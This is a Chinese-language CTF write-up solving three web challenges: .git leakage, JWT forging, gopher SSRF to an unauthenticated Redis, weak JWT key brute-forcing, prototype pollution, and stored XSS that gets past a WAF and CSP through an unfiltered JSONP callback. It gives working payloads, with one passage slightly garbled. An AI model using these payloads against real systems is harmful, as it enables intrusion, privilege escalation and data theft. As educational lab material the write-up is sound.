

一开是先试了vim泄露，不成功后考虑是不是.git文件泄露，commit确实会留下记录

先dirsearch扫一下，看看有什么文件泄露，发现确实是.git文件泄露



扫出来有给/admin接口，直接读无法读，看cookie发现有jwt_token伪造，需要在泄露的信息里找key

用githacker拉下来,执行下面命令

```
githacker --url http://80-59284a7d-0337-451c-bf99-f6d15b60bc66.challenge.ctfplus.cn/.git/ --output-folder ./git_result
```

成功恢复



源码开头就给了key的获取逻辑，我们看历史记录应该可以看到删除的这段key





获得key后看源发现需要role为root才可以登录

```
@app.route("/admin")
def admin():
    p = get_payload()
    if not p or p.get("role") != "root":
        return render_template("error.html", msg="who are you?"), 403
    return render_template("admin.html")

```

成功登录进去有个为协议读取信息的界面


源码强制只能使用gopher伪协议，可以接受任何TCP字节流，因此可以在里面注入命令

```
    u = urlparse(url)
    if u.scheme != "gopher":
        return "only gopher", 403
    data = urllib.parse.unquote_to_bytes(u.path[2:])
    try:
        s = socket.create_connection((u.hostname, u.port or 70), timeout=5)
        s.sendall(data)
        # ... 接收响应并 return resp ...
```

SSRF + Gopher 最常见的组合就是打 Redis 未授权访问，这题目后端确实有个未授权Redis服务，Redis一般在6379端口

最终的payload

```
/_*2%0d%0a$3%0d%0aGET%0d%0a$4%0d%0aflag%0d%0a
```

其中 `_` 本身没有特别的协议语义。代码通过：

```
data = urllib.parse.unquote_to_bytes(u.path[2:])
```

自动去除开头的`/_`

实际执行的是

```
*2\r\n$3\r\nGET\r\n$4\r\nflag\r\n
```

这是 Redis 的 RESP 协议，即 Redis 客户端和服务端通信使用的格式：

| 内容             | 含义                                 |
| ---------------- | ------------------------------------ |
| `*2\r\n`         | 这是一个包含 2 个元素的数组          |
| `$3\r\nGET\r\n`  | 第一个元素是长度为 3 的字符串 `GET`  |
| `$4\r\nflag\r\n` | 第二个元素是长度为 4 的字符串 `flag` |

\r\n不能直接转成字符串意义的二进制，需要换成%0d%0a，这样才起到控制字符的意义

最终拿到flag


## 大蒜哥

题目描述

大蒜哥的游戏库还亮着灯。货架上摆着他最爱的收藏，每一张卡带都挂着"可游玩"的绿光。  

只有一张是黑的。卡面上盖着一个冰冷的 ▣ LOCKED，下面一行小字：大蒜哥专属。

你摸了摸口袋。虚拟币余额是一串羞辱人的零。大蒜哥只记得自己随便设了个密钥

去让服务器相信你就是他。

看着应该是要我们爆破一个密钥进入服务器然后篡改打开专属游戏


进去后有登录注册窗口，先注册登录一下



进来之后有个购买窗口，要购买显示余额不足


发现本地存储里有个token，ey开头的应该是jwt_token，解码看看



发现了详细信息，其中uid是2333，题目应该是要我们找签名密钥去改uid，uid=1应该就是大蒜哥账号



题目描述说大蒜哥随便打了一串数字当密码，那应该是弱密码爆破，可以用hashcat爆破，密钥应该不复杂这里就用个叫JWT-ALL的在线工具直接爆一下，爆出来密钥是123123



把uid改成1生成token，成功进入大蒜哥账号



发现其他游戏访问都不成功，gta6是locked状态，应该就是要我们去解锁，访问/api/vault接口后返回了游戏源码



发现对权限进行了检测，直接访问/api/admin/gta6/launch进不去，/api/admin/gta6/launch永远回「GTA6 仍处于锁定状态」——说明服务端有个类似 if (!game.unlocked) return 403的判断，锁是对象的一个属性，不是什么密码或验证码

看源码发现有

```
body: JSON.stringify({ game: "gta6", settings: { quality: "ultra" } })
```

这里有一个嵌套的 `settings` 对象。在后端代码中，处理这种包含嵌套配置的 `JSON` 时，非常容易使用类似 `merge()`、`extend()`、`cloneDeep()` 或者手动递归遍历来合并配置。如果后端没有对 `__proto__` 或 `constructor.prototype` 进行过滤，就可以造成原型链污染。

先讲解下一些基础知识

1. JS 里读属性会“往上找”


JS 的每个对象都有个隐藏的“爹”（原型，prototype）。当你读一个对象没有的属性时，一路找到最顶上的 `Object.prototype`—这是所有对象的共同祖先。

2. 污染 = 往祖先身上塞属性


如果能给 `Object.prototype`塞一个属性，那所有对象都会“天生”拥有它：


3. `__proto__`是捅进去的针

`__proto__`是每个对象都有的属性，指向它的爹。关键在于：JSON 解析时 `__proto__`就是个普通键名，很多服务端代码做配置合并（merge）时用朴素的循环赋值：

```
假如后端是这样写的
function merge(target, source) {
  for (let key in source) target[key] = source[key];  // 没过滤 key！
}
```

你传 {"`__proto__`": {"unlocked": true}}，它就老老实实执行 target["`__proto__`"] = {unlocked: true}——这一步等于改写了祖先，全程序所有对象从此都带 unlocked: true。


再回到题目，源码里定义了const gta6Entitlement = "gta6_play"却没有使用，可能后端就是对这个进行校验，我们把它污染为true，传到服务器

```
{
  "game": "gta6",
  "settings": {
    "quality": "ultra",
    "__proto__": { "gta6_play": true }
  }
}
```

返回

```
{"unlocked": true, "title": "一男一女 / GTA6", "flag": "SYC{I_ReAlLy_WaNt_To_PlaY_GTA_6}"}
```

小结一下

```
发: settings.__proto__.gta6_play = true
        ↓ 服务端 merge(settings)
merge 写 target.__proto__ = {gta6_play: true}
        ↓ 等价于
Object.prototype.gta6_play = true     ← 改了全体对象的祖先
        ↓ 服务端判断
if (entitlements.gta6_play)  →  undefined? 不，原型链上有！→ true → 解锁
```


## 三真借宝法

题目描述





看这个题目和前端页面，这道题应该考的是存储型xss，请先辈阅贴就是让bot读我们发的贴子，那么题目说的先辈的月令应该就是cookie，我们只要绕过WAF读cookie

首先试了过滤了什么，发现服务端会处理 `<script` 和 `</script/src>
```

浏览器仍然会把它解析成：

```
<script src="/some.js"></script>
```

原因是在 HTML 解析器中，标签名后面的 `/` 也能作为属性分隔符。

这个绕过分别适用于开始标签和结束标签




经典 <svg onload=fetch>打出去没反应


逐层排查才发现 CSP 响应头：script-src 'self'（禁内联）+ connect-src 'self'（禁 JS 外带）——路被收窄到只能加载同源脚本

使用不能直接用

```

<svg onload=alert(1)>
<marquee onstart=alert(1)>
```

但是可以执行**同源**脚本，需要找到一个**同源 JavaScript 资源**

在光风师傅的博客里找到一个绕过思路总结

| CSP 配置                | 绕过手法                                                     |
| :---------------------- | :----------------------------------------------------------- |
| `unsafe-inline` 存在    | **直接打**，等于没 CSP                                       |
| 有 `nonce`              | **①** 复用页面里已有的 nonce（很多题的 nonce 是固定值！）；**②** 利用 `/proc/self` 之类的路径包含注入 nonce；**③** 如果有"用户内容被插进 script 标签"的点，就不用自己写 script 标签了 |
| 有 `strict-dynamic`     | 找一个**被信任的脚本**能加载的攻击点（如 JSONP 端点）        |
| `script-src` 允许某 CDN | 去这个 CDN 上找**托管了 JS 的接口**（比如 `cdn.com/jsonp?callback=alert(1)`） |
| 允许 `'self'`           | 找站内的 **JSONP 端点**：`/api?callback=alert(1)`；或者利用文件上传传一个 `.js` 到同源 |
| `unsafe-eval` 存在      | 配合 AngularJS 之类的库做沙箱逃逸                            |
| 只允许特定域            | 找**被允许域上的重定向**，或者 `<base href>` 注入            |

这题运行self 所以试jsonp端点



输入`/jsonp?callback=alert(1)；`返回

```
alert(1)；({"ok":true,"method":"三真借宝法"});
```

也就是说，`callback` 参数没有任何过滤，可以被直接当成 JavaScript 代码执行。

因为 `/jsonp` 是同源接口，CSP 中的：

```
script-src 'self'
```

不会阻止它,这正是题目小谜语**唯同源之响可入**暗示的东西

我一开始想的是可以直接让bot读后把cookie写帖子发出来，试了一下发现思路有点小问题，前面路径扫描有个/flag接口，所以我们不一定要获得cookie之后手动访问/flag，既然有/submit接口，我们可以让有月令cookie的bot去读/flag然后把flag发帖发出来

我们希望回调执行以下代码：

```
fetch('/flag')
  .then(r => r.text())
  .then(t => fetch('/submit', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
      title: 'flag-jsonp-hit',
      content: t
    })
  }))
```

然后把这段代码放进 JSONP 的 callback：

```
<script/src="/jsonp?callback=fetch('/flag').then(r=>r.text()).then(t=>fetch('/submit',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:new URLSearchParams({title:'flag-jsonp-hit',content:t})}))//"></script/src>
```

代码执行之后返回flag



此题值得看的点:

1.**标签过滤绕过**

```
<script/src=...></script/src>
```

2.**JSONP callback 未过滤**

```
/jsonp?callback=<任意 JavaScript>//
```
